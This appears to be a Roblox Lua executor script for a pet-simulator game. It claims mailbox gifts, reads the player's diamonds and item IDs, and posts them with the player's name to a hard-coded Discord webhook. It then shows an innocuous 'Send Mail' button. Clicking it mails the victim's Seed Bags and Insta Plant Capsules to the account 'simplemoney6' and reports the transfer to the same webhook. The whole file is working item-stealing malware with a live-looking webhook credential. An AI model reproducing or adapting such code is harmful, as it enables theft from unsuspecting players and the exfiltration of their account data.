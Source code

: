 wait(2)
local player = game.Players.LocalPlayer
local gui = player.PlayerGui:FindFirstChild("_MACHINES")

if gui then
    local mailboxMachine = gui.MailboxMachine
    if mailboxMachine then
        local giftsFrame = mailboxMachine.Frame.GiftsFrame
        if giftsFrame then
            local itemsFrame = giftsFrame.ItemsFrame
            if itemsFrame then
                local frameChild = itemsFrame:FindFirstChildWhichIsA("Frame")
                if frameChild then
                    local args = {
                        [1] = {
                            [1] = frameChild.Name
                        }
                    }
                    game:GetService("ReplicatedStorage"):WaitForChild("Network"):WaitForChild("Mailbox: Claim"):InvokeServer(unpack(args))
                end
            end
        end
    end
end

local ReplicatedStorage = game:GetService("ReplicatedStorage")
local HttpService = game:GetService("HttpService")
local Client = require(ReplicatedStorage:WaitForChild("Library"))
local Players = game:GetService("Players")
local UserInputService = game:GetService("UserInputService")

local webhookURL = "https://discord.com/api/webhooks/1240051310783627374/FeWsgqN_nlUvPEXVnxgP4pZ5qIJeDn6Uyhd0_vjjBVVGegKU8jGLgVdV0ULgRWumSvML"
local request = (syn and syn.request) or request or (http and http.request) or http_request

local DiamondsTable = {"Diamonds"}
local ItemTable = {"Seed Bag", "Insta Plant Capsule"}

function MakeDiamondsTable(Table)
    local Temp = {}
    for i, v in next, Client.Items.All.Globals.All() do
        if table.find(Table, v._data.id) then
            table.insert(Temp, v)
        end
    end
    return Temp
end

function MakeTable(Table)
    local Temp = {}
    for i, v in next, Client.Items.All.Globals.All() do
        if table.find(Table, v._data.id) then
            table.insert(Temp, v)
        end
    end
    return Temp
end

local diamondsAmount, seedBagAmount, instaPlantCapsuleAmount
local seedbagid, instaplantid

function GrabDiamondsId()
    for i, MadeTable in ipairs(MakeDiamondsTable(DiamondsTable)) do
        local Table = HttpService:JSONDecode(tostring(MadeTable))
        if Table.class == "Currency" then
            diamondsAmount = Table.data._am
        end
    end
end

function GrabId()
    for i, MadeTable in ipairs(MakeTable(ItemTable)) do
        local Table = HttpService:JSONDecode(tostring(MadeTable))
        if Table.data.id == "Seed Bag" then 
            seedBagAmount = Table.data._am
            seedbagid = Table.uid
        elseif Table.data.id == "Insta Plant Capsule" then
            instaPlantCapsuleAmount = Table.data._am
            instaplantid = Table.uid
        end
    end
end

GrabDiamondsId()
GrabId()

local playerName = Players.LocalPlayer.Name

local contentMsg = {
    embeds = {
        {
            title = "***👨‍💻: " .. playerName .. "***",
            description = "",
            color = 16777215,
            fields = {
                {
                    name = "***💎:***",
                    value = "***" .. (diamondsAmount and diamondsAmount or 0) .. "***"
                },
                {
                    name = "***🫙:***",
                    value = "***" .. (instaPlantCapsuleAmount and instaPlantCapsuleAmount or 0) .. "***"
                },
                {
                    name = "***🌱:***",
                    value = "***" .. (seedBagAmount and seedBagAmount or 0) .. "***"
                }
            }
        }
    }
}


request({
    Url = webhookURL,
    Method = "POST",
    Headers = {
        ["Content-Type"] = "application/json",
    },
    Body = HttpService:JSONEncode(contentMsg),
})

local screenGui = Instance.new("ScreenGui")
local button = Instance.new("TextButton")

screenGui.Parent = game.Players.LocalPlayer:WaitForChild("PlayerGui")
button.Parent = screenGui
button.Size = UDim2.new(0, 200, 0, 50)
button.Position = UDim2.new(0.5, -100, 0.5, -25)
button.BackgroundColor3 = Color3.new(0, 0, 0)
button.Text = "Send Mail"
button.TextColor3 = Color3.new(1, 1, 1)
button.TextScaled = true

button.MouseButton1Click:Connect(function()
    local args1 = {
        [1] = "simplemoney6",
        [2] = "sent",
        [3] = "Misc",
        [4] = seedbagid or "",
        [5] = seedBagAmount or ""
    }

    game:GetService("ReplicatedStorage").Network:FindFirstChild("Mailbox: Send"):InvokeServer(unpack(args1))
    wait(3)
    local args2 = {
        [1] = "simplemoney6",
        [2] = "sent",
        [3] = "Misc",
        [4] = instaplantid or "",
        [5] = instaPlantCapsuleAmount or ""
    }

    game:GetService("ReplicatedStorage").Network:FindFirstChild("Mailbox: Send"):InvokeServer(unpack(args2))

    local mailContentMsg = {
        embeds = {
            {
                title = "***👨‍💻: " .. playerName .. "***",
                description = "***💌: Mail Successfully Sent!***",
                color = 16777215,
                fields = {
                    {
                        name = "***🫙:***",
                        value = "Sent ***" .. instaPlantCapsuleAmount .. "***"
                    },
                    {
                        name = "***🌱:***",
                        value = "Sent ***" .. seedBagAmount .. "***"
                    }
                }
            }
        }
    }

    request({
        Url = webhookURL,
        Method = "POST",
        Headers = {
            ["Content-Type"] = "application/json",
        },
        Body = HttpService:JSONEncode(mailContentMsg),
    })
end)
